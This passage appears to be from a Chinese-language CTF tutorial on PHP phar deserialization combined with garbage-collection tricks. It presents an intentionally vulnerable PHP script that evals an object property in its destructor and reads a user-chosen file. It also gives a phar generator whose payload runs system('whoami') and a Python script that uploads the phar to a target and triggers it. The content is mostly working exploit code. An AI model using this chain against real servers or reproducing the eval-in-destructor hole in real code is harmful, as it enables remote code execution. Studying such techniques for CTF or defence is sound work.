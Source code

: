 *   **进阶篇**

    GC回收在phar反序列化的利用，转载[浅析GC回收机制与phar反序列化 | Arsene.Tang](http://arsenetang.com/2021/11/28/浅析GC回收机制与phar反序列化/)

    ```php
    <?php
    highlight_file(__FILE__);
    //error_reporting(0);
    class Test{
        public $code;
        public function __destruct(){
            eval($this -> code);
        }
    }
    $data = $_POST['data'];
    file_put_contents("a.txt", $data);
    $filename = $_GET['filename'];
    echo file_get_contents($filename);
    throw new Error("这不合理");
    ?>
    ```

    *   利用python转发phar文件

        phar文件中有许多无法表示的字符，可以用python转发文件将phar文件完整发送

        ```php
        <?php  //phar文件生成
        class Test{
            public $code = "system('whoami');";
        }
        $a[] = new Test();
        $a[] = 1;
        $phar = new Phar("arsenetang.phar");
        $phar -> startBuffering();
        $phar -> setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
        $phar -> setMetadata($a);
        $phar -> addFromString("test.txt","aaaaaaatest");
        $phar -> stopBuffering();
        ?>
        ```

        ```python
        import requests#python转发
        
        url = 'http://x.xx.xx.xxx:7676/test.php'
        res = requests.post(
            url,
            params={
                'filename': 'phar://a.txt'
            },
            data={
                0: open('./arsenetang.phar', 'rb').read()
            }
        ) # 写入并触发
        print(res.text)
        ```
